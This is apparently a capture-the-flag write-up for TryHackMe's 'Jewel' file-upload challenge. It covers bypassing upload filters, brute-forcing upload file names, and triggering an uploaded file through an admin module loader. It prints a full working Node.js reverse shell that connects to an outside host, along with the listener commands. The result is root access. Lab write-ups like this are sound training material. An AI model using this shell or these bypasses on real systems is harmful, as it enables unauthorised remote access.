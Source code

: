 # THM-Jewel-write-up
Write up for the last challenge in "Upload vulnerabilities" room, called Jewel


# Jewel

## Initial Reconnaissance
Navigating to the website we are face with a simple upload functionality.

In the background, gobuster is using seclist web directory brute force to find possible upload destinations.


Upon inspection of the source code we find that:
* There is a possible /assets directory (/assets/title.svg presents us with a nice vector picture) 
* There are two custom Java Scripts running

### Background.js

Might as well intercept and drop it, no need for flashing background...

### Upload.js

Here we can see the first of the filters - it is a client side filter that checks:

1. File size to be under 50kb
2. Magic number to be that of an Joint Photographic Experts Group
3. Whitelisting the extension to be only JPG or JPEG.

We intercept these in burp, and remove client side filtering.

## Further reconnaissance 

Intercepting server responses reveals that:

* Server is nginx/1.17.6
  * no CVE available
* Website is built with Express i.e. (Node.js)
  * This means we will be dropping a java-script reverse shell

### Server side filter

* No magic number checking
* Size checking in place - between 240 and 380 kb - should be sufficient for any reverse shell
* No filter checking in place
* MIME checking in place - easily spoofed, with interception of the request

Once we have understood and bypassed all filters, I uploaded a reverse shell in java script.
The file is called nodejs\_reverse.js. Let's find where it is.

## Finding the files

Output of Go-Buster:


'''
        /content              (Status: 301) [Size: 181] [--> /content/]
        /admin                (Status: 200) [Size: 1238]               
        /assets               (Status: 301) [Size: 179] [--> /assets/] 
        /modules              (Status: 301) [Size: 181] [--> /modules/]
        /Hannes_Alfv%E9n      (Status: 400) [Size: 1099]               
        /Alfv%E9n_wave        (Status: 400) [Size: 1097]               
        /Enciclopedia_Libre_Universal_en_Espa%F1ol (Status: 400) [Size: 1125]
        /mosquitologof%FCrshopfigurklein_3 (Status: 400) [Size: 1117]        
        /Post%2Dit%AE%5FSoftware%5FNotes%5F3%2E1%5F%5F%2D%5FStandard (Status: 400) [Size: 1143]
'''

**However** there was no file in /modules or /content. 
The /admin sight however allows you to load arbitrary modules.

We can see how this could be abused if we could locate our shell in /content
         -> we could load a "../content/shell" :)

##  Naming convention

Upon long time of struggle to locate the uploaded shell, I have spotted that pictures which alternate in the background of the main website are called:

* ABH.jpg
* LKQ.jpg
* SAD.jpg
* UAD.jpg

this looks like 3 letter random naming scheme. So, quick python script:

```
A = "ABCDEFGHIJKLMNOPQRSTUWVXYZ"

for i in A:
    for j in A:
        for k in A:
            print(i+j+k)
```

called in such a fashion to create a wordlist:

```
python3 wordlist_creator.py > wordlist.txt
```

I will not include the wordlist as it is 27^3 lines long (17,576).
It's a list of characters combination from AAA to ZZZ.

### Finding the shell

Time to find our uploaded shell, using the wordlist, and looking for jpg extension:

```
gobuster dir -u http://jewel.uploadvulns.thm/content -w wordlist -x jpg  
```

Output is as follows:

```
/ABH.jpg              (Status: 200) [Size: 705442]
/LKQ.jpg              (Status: 200) [Size: 444808]
/SAD.jpg              (Status: 200) [Size: 247159]
/UAD.jpg              (Status: 200) [Size: 342033]
/VNH.jpg              (Status: 200) [Size: 374]   
```

So we have found our shell as /VNH.jpg!

Let's open up a listener with 

```
nc -lnvp 4444
```



Nothing....


My code for the reverse shell

```
(function(){
    var net = require(net),
        cp = require(child_process),
        sh = cp.spawn(/bin/sh, []);
    var client = new net.Socket();
    client.connect(4444, "10.9.2.73", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

Re-writing to:

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.9.2.73", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

re-running go-buster:
```
/ABH.jpg              (Status: 200) [Size: 705442]
/EIJ.jpg              (Status: 200) [Size: 379]   
/LKQ.jpg              (Status: 200) [Size: 444808]
/SAD.jpg              (Status: 200) [Size: 247159]
/UAD.jpg              (Status: 200) [Size: 342033]
/VNH.jpg              (Status: 200) [Size: 374]   
```

And now:

```
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.9.2.73] from (UNKNOWN) [10.10.197.166] 59014
whoami
root
cat /var/www/flag.txt
